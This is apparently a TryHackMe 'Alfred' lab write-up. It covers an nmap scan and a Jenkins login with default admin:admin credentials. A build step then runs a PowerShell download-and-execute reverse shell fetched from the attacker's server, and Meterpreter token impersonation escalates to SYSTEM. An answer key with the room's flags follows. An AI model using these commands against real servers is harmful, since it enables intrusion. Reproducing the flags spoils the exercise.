










---
- **Title:** Alfred
- **Description: In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.
- **IP Address:** 10.10.1.114
- **Setup:**
```bash
		export IP=10.10.1.114
```
---


# Initial Access
- Run nmap agains the IP to explore the ports and services and output to a file named 10.10.1.114-nmap-scan

```bash
	nmap -A -Pn $IP >> $IP-nmap-scan
```



- As the nmap scan shows, Jenskin is running on port 8080 of this target machine. 



Trying default credentials admin || admin, I was able to log in. Once logged, I could see that there was only 1 project named "project". Clicking the link took me to the following page.



- Exploring the cofiguration of the project, I saw that everytime the job is run, Windows batch commands were executed.



* Now I need to deliever a payload and get a revershell through this configuration. According to the instuctions of TryHackMe, we need to download the [Invoke-PowerShellTcp.ps1]("https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1") to our attacking machine. From the directory where the file is located, create a server:

```bash
python -m http.server 8000
```

In the "Execute Windows batach command" from Jenskin, paste the follow command:

```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

```

- Save the configuration. 

- On attacking machine, run a netcat listener:  

```bash 
nc -lnvp 5555
```

- On Jenskin, click "Build Now" link to start the project. Now we'll get a reverse shell:



Poking around the target machine, we can easily find the user flag:



Following instruction on TryHackMe, we can easily switch to a more stable shell.



# Privilege Escalation

- Run ```list_tokens -g```  to check which token is available



- Run ```impersonate_token "BUILTIN\Administrators"```. Then run ```
getuid``` , we get the following result:



- Running ```ps``` command, we'll learn PID of services.exe is 668. Migrate the process to elevate prilvilege:

```shell
migrate 668
```


- Now we can view root.txt

<details>
    <summary> Answer </summary>
	
-   How many ports are open? (TCP only)  <br>
		-> 3 <br>
	
-   What is the username and password for the log in panel(in the format username:password) <br>
		-> admin:admin <br>
	
- What is the user.txt flag? <br>
		-> 79007a09481963edf2e1321abd9ae2a0<br>
	
-   What is the final size of the exe payload that you generated?? <br>
		-> 73802<br>
	
- What is the output when you run the _getuid_ command?<br>
		-> NT AUTHORITY\SYSTEM<br>
	
-  Read the root.txt file at C:\Windows\System32\config <br>
		-> ��dff0f748678f280250f25a45b8046b4a<br>
	
</details>
